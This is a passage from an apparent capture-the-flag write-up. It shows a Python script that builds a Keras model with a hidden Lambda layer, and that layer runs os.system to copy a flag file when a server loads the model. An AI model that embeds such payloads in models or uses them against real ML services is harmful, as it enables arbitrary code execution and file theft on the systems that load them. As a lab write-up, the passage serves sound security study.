 `send_from_directory` is a safe from path traversal function, so now fun there. It uses `werkzeug.security.safe_join` under the hood.

We can upload a malicious model which 1 layer will contain our `os.system` payload with copying the flag to models dir so we can retrieve it later. To create a model:

`mdl.py`:
```python
from keras.datasets import mnist
from keras.utils import to_categorical
from keras.models import Sequential
from keras.layers import Dense, Activation, Lambda


def exploit(x):
    import os

    os.system("cp /app/flag.txt /app/backend/models/flag.txt")
    return x


model = Sequential()
model.add(Dense(10, input_shape=(784,)))
model.add(Lambda(exploit))
model.add(Dense(10))
model.add(Activation("softmax"))

model.compile(loss="categorical_crossentropy", metrics=["accuracy"], optimizer="adam")
(X_train, y_train), (X_test, y_test) = mnist.load_data()

X_train = X_train.reshape(60000, 784)
X_test = X_test.reshape(10000, 784)
X_train = X_train.astype("float32")
X_test = X_test.astype("float32")

X_train /= 255
X_test /= 255

n_classes = 10
Y_train = to_categorical(y_train, n_classes)
Y_test = to_categorical(y_test, n_classes)


history = model.fit(
    X_train,
    Y_train,
    batch_size=128,
    epochs=20,
    verbose=2,
    validation_data=(X_test, Y_test),
)

model.save("pwn.h5")
```
